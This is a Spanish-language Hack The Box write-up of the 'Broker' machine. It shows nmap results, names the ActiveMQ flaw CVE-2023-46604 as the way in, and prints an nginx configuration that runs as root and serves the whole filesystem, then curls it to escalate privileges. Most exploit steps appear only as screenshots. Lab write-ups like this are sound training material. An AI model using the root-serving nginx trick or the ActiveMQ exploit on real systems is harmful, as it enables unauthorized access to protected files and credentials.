 ```yaml
---
title: "Broker Writeup - Hack-The-Box"
date: 2023-08-25
categories: [Writeups, Hack-The-Box]
tags: [Linux, Easy]
image: 
  path: assets/img/imagenes/Broker.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Broker banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap
```python
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1234/tcp  open  hotline?
1337/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Index of /
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
1883/tcp  open  mqtt
```

### Enumeracion del puerto 80
![img](/assets/img/imagenes/Pasted image 20240106222122.png)
tenemos información sobre la pagina. esto es importante para poder buscar vulnerabilidades o exploits

### buscamos información sobre el framework
![img](/assets/img/imagenes/Pasted image 20240106222624.png)
searchsploit nos indica que tenemos varios sploits  para poder vulnerar este framework asi que haremos una busqueda en internet

### CVE-2023-46604
![img](/assets/img/imagenes/Pasted image 20240106224146.png)

### ejecutamos el exploit
abrimos un servidor en python para poder hacer el llamado del poc.xml y ejecutamos
![img](/assets/img/imagenes/Pasted image 20240106231746.png)
tenemos conexión 

### Escalada de privilegios 
![img](/assets/img/imagenes/Pasted image 20240106232230.png)

### copiamos el archivo nginx.conf al directorio tmp para poder editarlo
```python
user root;
events {
	worker_connections 768;
}
http {
	server {
		listen 9001;
		root /;
		autoindex on;
	}
}
```
si nos da un error podemos cambiar el puerto de listen por otro
![img](/assets/img/imagenes/Pasted image 20240107003240.png)
finalmente podemos hacer un curl al localhost apuntando al puerto listen que especificamos y al directorio donde buscaremos el archivo que necesitamos

### WE ARE ROOT
![img](/assets/img/imagenes/Pasted image 20240130204058.png)